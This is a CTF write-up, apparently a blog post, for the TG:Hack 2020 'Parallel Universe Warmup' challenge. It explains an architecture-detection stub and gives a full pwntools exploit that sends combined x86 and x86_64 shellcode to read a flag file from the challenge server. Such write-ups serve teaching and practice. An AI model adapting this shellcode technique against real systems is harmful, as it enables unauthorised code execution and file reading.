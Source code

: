 ```yaml
---
layout: post
title: TG:Hack CTF 2020 - Parallel Universe Warmup
---
```


> Can you create shellcode that runs on x86 and x86_64 simultaneously? Read the flag in flag.txt. The following syscalls are allowed:
>
> open, read, write, close, exit_group, mmap
>
> nc parallel.tghack.no 6006
>
> Files: [repo][repo]

## Analysis

We need to write a shellcode that will be working on x86 and x86_64 linux systems at the same time. This can be achieved by using short architecture stub that will be detecting architecture on both systems and jumping to the right place in the shellcode.

{% highlight python %}
arch_stub = (
    b"\x31\xc9"
    b"\x41"
    b"\xe2\x3e"
)
{% endhighlight %}

On x86 linux it will translate to:
{% highlight shell_session %}
0xf7fce001                  xor    ecx, ecx
0xf7fce003                  inc    ecx
0xf7fce004                  loop   0xf7fce044
<x86 shellcode>:
  0xf7efe006                  push   0x7478
  0xf7efe00b                  push   0x742e6761
  continue executing ...
{% endhighlight %}

On x86_64 linux it will translate to:

{% highlight shell_session %}
0x7fb751ce4001                  xor    ecx, ecx
0x7fb751ce4003                  rex.B  loop 0x7fb751ce4044
<x86 shellcode>:
   ...
<x86_64 shellcode>
   0x7fb751ce4044:      mov    rdi,0x7478
   0x7fb751ce404b:      push   rdi
   continue executing ...
{% endhighlight %}

Basically for x86 the shellcode will continue executing while for x86_64 it will jump to x86_64 shellcode.

## Full exploit 

{% highlight python %}
#!/usr/bin/env python3

from pwn import *

exe = context.binary = ELF('./pwnme32')

host = args.HOST or 'parallel.tghack.no'
port = int(args.PORT or 6005)

def local(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

io = start()
io.recvuntil("Please give me some shellcode :))\n", timeout=10)

x86 = "\n".join([
    # open
    "push " + hex(u32("xt\x00\x00")),
    "push " + hex(u32("ag.t")),
    "push " + hex(u32("./fl")),
    "mov eax, 0x5",
    "mov ebx, esp",
    "mov ecx, 0x0",
    "mov edx, 0x0",
    "int 0x80",

    # read
    "mov ebx, eax", # fd
    "mov eax, 0x3", # read
    "mov ecx, esp",
    "mov edx, 0x20",
    "int 0x80",

    # write
    "mov eax, 0x4", # write 
    "mov ebx, 0x1", # stdout
    "int 0x80",
])

x64 = "\n".join([
    # open
    "mov rdi, " + hex(u32("xt\x00\x00")), 
    "push rdi",
    "mov rdi, " + hex(u64("./flag.t")), 
    "push rdi",

    "mov rax, 0x2",
    "mov rdi, rsp",
    "mov rsi, 0x0",
    "mov rdx, 0x0",
    "syscall",

    # read
    "mov rdi, rax", # fd
    "mov rax, 0x0",
    "mov rsi, rsp",
    "mov rdx, 0x20",
    "syscall",

    # write
    "mov rax, 0x1", # write
    "mov rdi, 0x1",
    "syscall",
])


arch_stub = (
    b"\x31\xc9"
    b"\x41"
    b"\xe2\x3e" 
)

context.clear()
context.update(arch = 'i386', os = 'linux')
asm86 = asm(x86, arch="i386", os="linux")

context.clear()
context.update(arch = 'amd64', os = 'linux')
asm64 = asm(x64, arch="amd64", os="linux")

payload = (
        arch_stub +
        asm86 +
        asm64
)
io.send(payload)

io.interactive()
{% endhighlight %}

[repo]: https://github.com/r0ck3tz/ctfs/tree/master/2020/tghack/parallel-universe-warmup
